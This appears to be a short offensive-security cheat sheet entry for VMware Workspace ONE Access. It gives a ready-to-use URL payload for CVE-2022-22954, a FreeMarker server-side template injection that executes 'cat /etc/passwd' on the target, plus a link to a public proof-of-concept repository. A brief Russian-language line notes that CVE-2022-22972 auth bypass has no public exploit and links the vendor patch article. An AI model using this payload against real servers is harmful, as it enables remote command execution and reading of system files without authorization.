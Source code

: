 # Workspace ONE Access

## CVE-2022-22954: SSTI

```
/catalog-portal/ui/oauth/verify?error=&deviceUdid=${"freemarker.template.utility.Execute"?new()("cat /etc/passwd")}
```

PoC: [https://github.com/sherlocksecurity/VMware-CVE-2022-22954](https://github.com/sherlocksecurity/VMware-CVE-2022-22954)

## CVE-2022-22972: Auth Bypass

На Linux серверах. Эксплоита нет, патч вышел, скачать не могу: [https://kb.vmware.com/s/article/88438](https://kb.vmware.com/s/article/88438)

